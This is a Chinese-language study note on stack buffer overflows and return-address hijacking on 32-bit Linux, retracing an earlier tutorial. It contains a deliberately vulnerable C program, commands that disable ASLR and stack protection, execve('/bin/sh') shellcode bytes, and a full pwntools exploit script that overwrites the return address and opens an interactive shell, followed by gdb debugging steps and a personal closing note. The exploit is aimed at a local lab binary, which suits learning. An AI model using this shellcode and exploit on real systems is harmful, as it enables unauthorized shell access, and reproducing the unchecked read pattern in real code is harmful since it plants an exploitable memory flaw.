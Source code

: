 #一步一步学习ROP Linux_x86
这篇文章是在复现蒸米写的教程之后 对里面动手的部分进行纠正，详细解释请看蒸米的原文。

##0x01 Control Flow Hijack 程序流劫持

首先来看一下这个有缓冲区溢出的程序：

	#!c
	#include <stdio.h>
	#include <stdlib.h>
	#include <unistd.h>

	void vulnerable_function() {
    	char buf[128];
    	read(STDIN_FILENO, buf, 256);
	}

	int main(int argc, char** argv) {
    	vulnerable_function();
    	write(STDOUT_FILENO, "Hello, World\n", 13);
	}
	
用这个命令编译程序：

	gcc -fno-stack-protector -z execstack -o level1 level1.c
	
关闭ASLR
	
	sudo -s 
	echo 0 > /proc/sys/kernel/randomize_va_space
	exit

以上关闭系统的保护机制。

###第一步
计算出我们需要覆盖多少个字节，才能覆盖到返回地址（过程略）。

同时也能知道地址出错的位置。

计算结果为140个字节。

通过以上结论，我们可以计算出 buf的起始地址，也就是一会儿我们要将shellcode的放置的起始地址。

###第二步
接下来，我们需要一段shellcode（关于shellcode的生成的方法，可以参考长亭系统安全的ppt第三节）。

	#!c
	# execve ("/bin/sh") 
	# xor ecx, ecx
	# mul ecx
	# push ecx
	# push 0x68732f2f   ;; hs//
	# push 0x6e69622f   ;; nib/
	# mov ebx, esp
	# mov al, 11
	# int 0x80

	shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
	shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
	shellcode += "\x0b\xcd\x80

这里我们使用一段最简单的执行`execve ("/bin/sh")`命令的语句作为shellcode。

###第三步
<mark>这里也是蒸米 原文无法复现的一个地方。

蒸米的原文是这样写的：

开启core dump:

```
#!bash
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```
开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。

```
#!bash
$./level1 
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

$ gdb level1 /tmp/core.1433844471 
Core was generated by `./level1'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()

(gdb) x/10s $esp-144
0xbffff290:  "ABCD", 'A' <repeats 153 times>, "\n\374\267`\204\004\b"
0xbffff335:  ""
```

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为$esp-144。通过gdb的命令 “x/10s $esp-144”，我们可以得到buf的地址为<mark>0xbffff290

<mark>实际上并不是这样的，我们来在自己的电脑上操作一下

![core dump](1.png)

由上图可知，buf的起始地址是 `0xbffff640` <mark>实际上并不是的，请看第四步

###第四步


最终我们得到本地测试代码如下：

```
#!python
#!/usr/bin/env python
from pwn import *

p = process('./rop') 
ret = 0xbffff640

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

# p32(ret) == struct.pack("<I",ret) 
#对ret进行编码，将地址转换成内存中的二进制存储形式
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)

p.send(payload) #发送payload

p.interactive()  #开启交互shell
```
执行：
![](2.png)

eeeeee,竟然成功了！！！！呃呃呃呃，但是还是想说一下调试。


###调试脚本
**我们来进行调试，也是本文最最重要的部分，如何调试你的脚本**

**首先**
在发送payload之前添加一个`raw_input()` 

![](3.png)

执行脚本
![](4.png)

我们在右上角运行sc.py 取得进程号，在左边的窗口打开gdb，然后 `attach 进程号` 

此时，rop就停住了（因为没有给他发送输入）

然后我们在右上输入一个字符，让程序继续

这样在左边 再按c让程序继续
![](5.png)


##结束语
今天是2018年5月9日 今天晚上园神收到了来自360某实验室的实习offer 非常为她感到高兴。这也给我在漫长的菜鸟阶段一点希望，我会继续努力下去的

今天是2018您11月26日，今天无意中翻到了这个文章，并且看到最后的一句话。想对5月的自己说，你也拿到了360企业安全 某实验室安全研究员的offer。也祝明年6月份入职的我，工作顺利。
